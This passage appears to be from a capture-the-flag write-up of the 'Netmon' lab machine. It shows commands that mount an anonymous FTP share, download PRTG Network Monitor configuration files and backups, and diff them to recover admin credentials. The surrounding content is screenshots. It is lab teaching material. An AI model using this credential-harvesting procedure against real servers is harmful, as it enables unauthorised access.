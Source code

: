 
```bash
mkdir /mnt/ftpNetmonServer
curlftpfs anonymous:@10.10.10.152 /mnt/ftpNetmonServer

find . \-name \*PRTG\* 2>/dev/null

ftp 10.10.10.152 21
  cd .ProgramData
  cd Paessler
  cd "PRTG Network Monitor"
  prompt off
  mget "PRTG Configuration.dat"
  mget "PRTG Configuration.old"
  mget "PRTG Configuration.old.bak"
  quit
```

<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After comparing the original files with their backups using `diff`, I find the **PRTG** access credentials. 

```bash
diff "PRTG Configuration.dat" "PRTG Configuration.old"
diff "PRTG Configuration.dat" "PRTG Configuration.old.bak"
diff "PRTG Configuration.old" "PRTG Configuration.old.bak"
# User: prtgadmin Pr----2018       :)
```

<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
